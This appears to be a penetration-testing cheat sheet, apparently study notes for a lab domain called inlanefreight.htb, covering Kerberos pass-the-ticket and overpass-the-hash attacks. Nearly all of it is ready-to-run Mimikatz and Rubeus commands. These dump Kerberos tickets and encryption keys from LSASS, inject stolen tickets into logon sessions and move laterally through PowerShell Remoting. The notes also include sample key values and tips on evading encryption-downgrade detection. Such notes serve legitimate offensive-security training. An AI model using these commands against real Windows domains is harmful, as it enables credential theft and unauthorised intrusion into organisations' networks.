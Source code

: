 > Stolen Kerberos ticket is used instead of NTLM hash to authenticate

## Export the tickets
### mimikatz

**Administrator**
```ps1
mimikatz.exe privilege::debug 'sekurlsa::tickets /export' exit
```

To gather all the kerberos tickets present. The output will be in a list of files with `.kirbi` extentsion containing the tickets
 > The tickets that end in `$` correspond to a computer account. User tickets will end with just `@`

| `[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi` | User Ticket |
| --- | --- |
| `[0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi` | **Computer Account** |

> ***Note***: Ticket with service krbtgt is the ticket granting ticket for the account

> ***Caution***: Mimikatz ver2.2.0 20220919 if command `sekurlsa::ekeys` it sometimes shows all hashes as des_cbc_md4 on windows 10. Thus Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. Use Rubeus in to generate tickets in base64 format.

### Rubeus

```ps1
Rubeus.exe dump /nowrap
```

This will dump the tickets in base64 format in the terminal and will not provide a file, `/nowrap` makes it easier to copy

## Pass the Key or OverPass the Hash

### Requirements

User's hash. Use `sekurlsa::ekeys` to dump all kerberos encryption keys.
- `AES256_HMAC` and `RC4_HMAC` keys are needed

> **Note**: For this attack type mimikatz require admin rights as it creates a LSASS process whereas rubeus does not. Rubeus can also be caught as Kerberos can only use port 88 to interact with services, but it is less likely because of the popularity of the attack from mimikatz

> pth vs asktgt <https://github.com/GhostPack/Rubeus#example-over-pass-the-hash>

### Mimikatz

```ps1
mimikatz.exe privilege::debug 'sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:<rc4_hash>'
```

this will create a cmd.exe shell and can be used to run any service of choice from there

### Rubeus

```ps1
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:<aes256_hash> /nowrap
```

>***Note*** For both the tools the encryption type can be changed.

> ***Note***: Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade." 

## Pass-the-Ticket

### Rubeus

#### Import Ticket from .kirbi file

```ps1
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

#### Convert ticket to base64 then pth

```ps1
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

Converts the ticket to base64

```ps1
Rubeus.exe ptt /ticket:<base64_ticket_string>
```

Uses the base64 ticket string to perform the attack

#### Genererate the ticket and submit it

```ps1
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt 
```
Performs a OverPass the hash attack and `/ptt` submits the ticket(TGT or TGS) to the logon session

### Mimikatz

```ps1
mimikatz.exe privilege::debug 'kerberos::ptt "<kirbi_file_path>"
```
> **Note**: Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the misc::cmd command.

## Pass-the_ticket with Powershell Remoting

### Requirements
To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

Powershell Remoting creates the following listeners

| Ports | Protocol |
|---|---|
| `TCP/5985` | HTTP |
| `TCP/5986` | HTTPS |

#### Mimikatz
After ptt using mimikatz use `Enter-PSSession -ComputerName hostname`

#### Rubeus
**Create Sacrificial Program**
```ps1
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
Creates a cmd session using [type-9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/) logon session
Execute Rubeus from that session to request for TGT for lateral movement
```ps1
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
